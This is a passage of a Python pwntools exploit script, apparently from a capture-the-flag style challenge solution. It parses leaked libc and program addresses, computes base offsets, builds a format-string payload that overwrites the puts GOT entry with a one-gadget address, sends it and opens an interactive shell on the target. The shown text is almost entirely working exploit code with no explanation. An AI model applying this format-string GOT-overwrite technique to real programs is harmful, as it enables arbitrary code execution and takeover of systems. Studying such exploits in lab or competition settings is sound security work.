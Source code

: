 
libc,el = p.recvline().decode().split(",")
libc = int(libc,16)
el = int(el,16)

libc_base = libc - 1133111
elf_base = el - 5056
puts_got = elf_base + 0x3da0
ones = libc_base + 0xebcf1

# gdb.attach(p)

payload = fmtstr_payload(8, {puts_got:ones})

p.recvuntil("time..")
p.sendline(payload)
p.interactive()

```
